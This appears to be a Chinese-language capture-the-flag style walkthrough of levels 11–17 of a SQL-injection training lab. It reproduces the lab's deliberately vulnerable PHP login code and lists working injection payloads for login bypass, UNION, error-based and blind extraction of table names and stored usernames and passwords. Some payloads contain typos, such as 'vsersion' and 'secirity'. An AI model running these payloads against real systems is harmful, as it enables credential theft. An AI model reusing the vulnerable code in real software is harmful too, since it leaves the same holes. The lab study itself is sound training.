







### 第十一关

源码

<?php  
//including the Mysql connect parameters.  
include("../sql-connections/sql-connect.php");  
error_reporting(0);  

// take the variables  
if(isset($_POST['uname']) && isset($_POST['passwd']))  
{  
    $uname=$_POST['uname'];  
    $passwd=$_POST['passwd'];  

    //logging the connection parameters to a file for analysis.  
    $fp=fopen('result.txt','a');  
    fwrite($fp,'User Name:'.$uname);  
    fwrite($fp,'Password:'.$passwd."\n");  
    fclose($fp);  


    // connectivity   
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";  
    $result=mysql_query($sql);  
    $row = mysql_fetch_array($result);  

    if($row)  
    {  
       //echo '<font color= "#0000ff">';    

echo "<br>";  
       echo '<font color= "#FFFF00" font size = 4>';  
       //echo " You Have successfully logged in\n\n " ;  
       echo '<font size="3" color="#0000ff">';      
       echo "<br>";  
       echo 'Your Login name:'. $row['username'];  
       echo "<br>";  
       echo 'Your Password:' .$row['password'];  
       echo "<br>";  
       echo "</font>";  
       echo "<br>";  
       echo "<br>";  
       echo '';    

       echo "</font>";  
    }  
    else    
{  
       echo '<font color= "#0000ff" font size="3">';  
       //echo "Try again looser";  
       print_r(mysql_error());  
       echo "</br>";  
       echo "</br>";  
       echo "</br>";  
       echo '';     
       echo "</font>";    
    }  
}  

?>

```SQL
a' or 1=1#
插入下面的语句
SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1
构成
SELECT username, password FROM users WHERE username='a' or 1=1#' and password='' LIMIT 0,1
在这句话中真正起到作用的是。
SELECT username, password FROM users WHERE username='a' or 1=1#
细心可以发现只需要构造$uname即可后面都无关紧要，应为都被注释了
此时就可以进行攻击
拿下字段数
a'order by 2#
a'order by 3#
拿下数据库
a'union select 1,database()#
拿下表名
a'union select 1,(select group_concat(0x5e,table_name,0x5e)from information_schema.tables where table_schema=database())#
拿下列名
a'union select 1,(select group_concat(0x5e,column_name,0x5e)from information_schema.columns where table_schema=database() and table_name='users')#
拿下数据
a'union select 1,(select group_concat(0x5e,id,0x5e,username,0x5e,password)from security.users)#
```

万能密码登陆尝试



爆字段发现只有两个字段



联合查询



查表a' union select 1,group_concat('!',table_name,'!') from information_schema.tables where table_schema=database()#


查列名a' union select 1,group_concat('!',column_name,'!') from information_schema.columns where table_schema=database() and table_name='users'#


查数据a' union select 1,group_concat('!',id,'!',username,'!',password,'!') from security.users #


### 第十二关

与上一关的区别在于闭合不同此关为("")闭合其它无区别

`$uname='"'.$uname.'"';  
$passwd='"'.$passwd.'"';   
@$sql="SELECT username, password FROM users WHERE username=($uname) and password=($passwd) LIMIT 0,1";`

查数据

```SQL
1") union select 1, group_concat(0x5e,id,0x5e,username,0x5e,password)from security.users#
```


### 第十三关

闭合不同为('')而且没有输出，只能使用报错报错注入



```SQL
闭合一下
1') or 1=1 #
爆数据库
1') and updatexml(1,concat('%',database()),1)#
爆表名
1') and updatexml(1,(select group_concat(0x5e,table_name,0x5e)from information_schema.tables where table_schema=database()),1)#
爆列名
1') and updatexml(1,(select group_concat(0x5e,column_name,0x5e)from information_schema.columns where table_schema=database() and table_name='users'),1)#
1') and updatexml(1,(select group_concat(0x5e,username,0x5e,password,0x5e) from security.users),1)#
```

爆数据库


爆表名1') and updatexml(1,concat('%',(select group_concat(table_name) from information_schema.tables where table_schema=database()) ),1) #


查列名1') and updatexml(1,(select group_concat(column_name) from information_schema.columns where table_schema=database()),1)#


查数据1') and updatexml(1,(select group_concat('!',email_id,'!',referer) from information_schema.columns where table_schema=database()),1)#

### 第十四关

与第十三关的区别在于闭合不同，此关为""

```SQL
闭合标签
1" or 1=1#
爆库
1" and updatexml(1,concat(0x5e,database(),0x5e),1)#
爆表
1" and updatexml(1,(select group_concat(0x5e,table_name,0x5e)from information_schema.tables where table_schema=database()),1)#
爆列名
1" and updatexml(1,(select group_concat(0x5e,column_name,0x5e)from information_schema.columns where table_schema=database()),1)#
爆数据
1" and updatexml(1,(select group_concat(0x5e,username,'0x5e',password,0x5e)from security.users),1)#
```

```SQL
闭合标签
1" or 1=1#
爆库
1" and extractvalue(1,concat(0x5e,database(),0x5e))#
爆表
1" and extractvalue(1,(select group_concat('!',table_name) from information_schema.tables where table_schema=database()))#
爆列名
1" and extractvalue(1,(select group_concat('!',column_name) from information_schema.columns where table_schema=database() and table_name='users'))#
爆数据
1" and extractvalue(1,(select group_concat('!',username,'!',password) from security.users))#
```

### 第十五关

因为没有输出所以使用盲注或者dns外带




盲注

```SQL
闭合
1' or 1=1 #
burp爆库首字符
1' or ascii(substr(database(),1,1))=115#
通过修改第一关1，来追忆爆破出数据库名。
一般这种情况会用脚本跑，但是我目前还不会用暂且这样。
```

### 第十六关

闭合方式不同相比于上一关，其它并无不同

### 第十七关

源码

<?php  
//including the Mysql connect parameters.  
include("../sql-connections/sql-connect.php");  
error_reporting(0);  

function check_input($value)  
    {  
    if(!empty($value))  
       {  
       // truncation (see comments)  
       $value = substr($value,0,15);  
       }  

       // Stripslashes if magic quotes enabled  
       if (get_magic_quotes_gpc())  
          {  
          $value = stripslashes($value);  
          }  

       // Quote if not a number  
       if (!ctype_digit($value))  
          {  
          $value = "'" . mysql_real_escape_string($value) . "'";  
          }  

    else  
       {  
       $value = intval($value);  
       }  
    return $value;  
    }  

// take the variables  
if(isset($_POST['uname']) && isset($_POST['passwd']))  

{  
//making sure uname is not injectable  
$uname=check_input($_POST['uname']);    

$passwd=$_POST['passwd'];  


//logging the connection parameters to a file for analysis.  
$fp=fopen('result.txt','a');  
fwrite($fp,'User Name:'.$uname."\n");  
fwrite($fp,'New Password:'.$passwd."\n");  
fclose($fp);  


// connectivity @$sql="SELECT username, password FROM users WHERE username= $uname LIMIT 0,1";  

$result=mysql_query($sql);  
$row = mysql_fetch_array($result);  
//echo $row;  
    if($row)  
    {  
       //echo '<font color= "#0000ff">';    
$row1 = $row['username'];        
       //echo 'Your Login name:'. $row1;  
       $update="UPDATE users SET password = '$passwd' WHERE username='$row1'";  
       mysql_query($update);  
       echo "<br>";  


       if (mysql_error())  
       {  
          echo '<font color= "#FFFF00" font size = 3 >';  
          print_r(mysql_error());  
          echo "</br></br>";  
          echo "</font>";  
       }  
       else  
       {  
          echo '<font color= "#FFFF00" font size = 3 >';  
          //echo " You password has been successfully updated " ;         
echo "<br>";  
          echo "</font>";  
       }  

       echo '';      
       //echo 'Your Password:' .$row['password'];  
       echo "</font>";  


    }  
    else    
{  
       echo '<font size="4.5" color="#FFFF00">';  
       //echo "Bug off you Silly Dumb hacker";  
       echo "</br>";  
       echo '';  

       echo "</font>";    
    }  
}  

?>

本关对用户名进行了防止SQL注入保护，但是没有对密码进行保护因此可以输入正确的用户名然后对密码进行sql注入



```SQL
爆出数据库
1' and updatexml(1,concat(0x5e,database()),1)#
爆表
1' and updatexml(1,(select group_concat(0x5e,table_name,0x5e)from information_schema.tables where table_schema=database()),1)#
爆用户
1' and updatexml(1,concat(0x5e,user(),0x5e),1)#
爆版本
1' and updatexml(1,concat(0x5e,vsersion(),0x5e),1)#
爆列名
1' and updatexml(1,(select group_concat('!',column_name) from information_schema.columns where table_schema=database() and table_name='users'),1) #
爆数据
1' and updatexml(1,(select cocat(username) from secirity.users limit 1,1),1)#
```


